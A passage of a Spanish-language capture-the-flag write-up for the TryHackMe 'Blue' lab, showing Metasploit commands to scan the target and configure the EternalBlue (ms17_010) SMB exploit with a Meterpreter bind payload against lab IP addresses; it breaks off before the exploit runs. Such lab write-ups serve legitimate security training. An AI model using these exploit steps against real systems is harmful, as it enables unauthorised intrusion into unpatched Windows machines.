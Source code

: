 donde configuramos el scanner para que tome como host la ip de la victima 

```bash
set RHOSTS 10.10.174.11
```
![](/assets/images/tryhme-writeup-blue/Pasted_image_20231228134134.png)

y ponemos a correr el escáner 

```bash
run
```
![](/assets/images/tryhme-writeup-blue/Pasted_image_20231228134222.png)

-------

## Explotación

para la explotacion utilizamos el modulo de **ms17_010_eternalblue** de metasploit ,donde cambiaremos el **rhosts** por la ip de la victima y cambiamos el **lhost** por nuestra ip

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.174.11
set lhost 10.8.245.39
```

y para hacer la escala de privilegios como pide tryhackme cambiamos el payload por el siguiente

```bash
set payload windows/x64/meterpreter/bind_tcp
```
